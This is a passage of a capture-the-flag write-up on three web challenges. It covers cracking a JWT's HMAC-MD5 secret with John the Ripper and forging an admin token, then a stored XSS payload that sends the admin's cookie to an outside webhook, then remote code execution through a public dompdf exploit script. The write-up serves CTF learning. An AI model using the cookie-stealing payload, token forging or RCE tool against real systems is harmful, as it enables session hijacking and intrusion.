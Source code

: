 `john.exe jwt.txt --wordlist=wordlist.txt --format=HMAC-MD5`
or 
`john token --mask=fsrwjcfszeg?l?l?l?l?l --format=HMAC-MD5`

After running the command, you will obtain the remaining characters, which are `vsyfa`. To forge the correct token with the new secret, you need to replace the existing JWT token with the new one. The resulting token will be:

`
eyJhbGciOiAiTUQ1X0hNQUMifQ.eyJ1c2VybmFtZSI6ICJhZG1pbiJ9.fWg2jgheCvPc4WaNSmAVEQ==
`
Using this modified token, you can then proceed to achieve your desired goal or obtain the flag

![enter image description here](https://i.imgur.com/pfoAx44.png)


## Star Wars
after sign in blog page appear with commant section

![enter image description here](https://i.imgur.com/5RjLJya.png)
  
After attempting to comment, the command will be sent for admin review, potentially leading to XSS. The following payload, or another similar payload, can be utilized:
`<script> var i = new Image;
  i.src = "http://webhook/?" + document.cookie; </script>`
By inspecting the webhook, the admin's cookie can be identified. By replacing the cookie, the flag can be obtained. For further details, refer to the following link: [XSS Reflected Steal Cookie](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md).

## Stickers
This challenge the same machine i solved it in HTB once we open the challenge will get form need to complete then after complete the form will downlad the pdf 
![enter image description here](https://i.imgur.com/uGbp9u3.png)
after submit will get this request 

![enter image description here](https://i.imgur.com/l3Uiztk.png)



searhing for php pdf exploits and found this cool tool 
https://github.com/rvizx/CVE-2022-28368


python3 dompdf-rce.py --inject "GET request " --dompdf "challenge url "



rce and then the flag 

Thanks for Reading ..
